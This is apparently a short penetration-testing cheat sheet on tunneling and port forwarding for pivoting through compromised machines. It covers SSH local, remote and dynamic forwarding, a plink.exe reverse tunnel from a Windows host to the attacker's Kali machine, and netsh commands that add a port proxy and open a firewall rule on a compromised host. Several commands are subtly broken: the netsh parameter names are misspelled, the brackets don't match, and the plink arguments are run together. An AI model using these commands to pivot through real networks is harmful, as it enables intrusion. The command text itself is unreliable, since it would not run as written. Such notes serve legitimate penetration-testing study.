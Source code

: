 # Tunneling and Port forwarding
## SSH Tunneling

SSH local port forwarding

``
ssh -N -L <Our_Kali_ip:Our_Kali_port:Tunnled_host:Tunnled_hostport <ssh_username@ip>
``

SSH Remote port forwarding

``
ssh -N -R <Our_Kali_ip:Our_Kali_port:Tunnled_host:Tunnled_hostport <ssh_username@ip> 
``

SSH Dynamic Port forwarding

``
ssh -N -D <Our_kali_ip:kali_port> ssh_username@IP
``

## Plink.exe
windows_IP and Port =which to be forwarded

``
cmd.exe /c echo y | plink.exe -ssh -l user -pw passwd -R kali_ip:kali_port:windows_IP:windows_portkali_IP kali_IP
``

## Netsh

``
netsh interface portproxy add v4tov4 listenport=compromised_port listenaraddress=compromised_machine_ip connectport=forwarding_port connectedaddress=forwarding_ip
``

after this we need to set a firewall rule using netsh

``
netsh advfirewall firewall add rule name="rule_name" protocol=TCP dir=in localip=compromised_ip localport=compromised_port action=allow
``

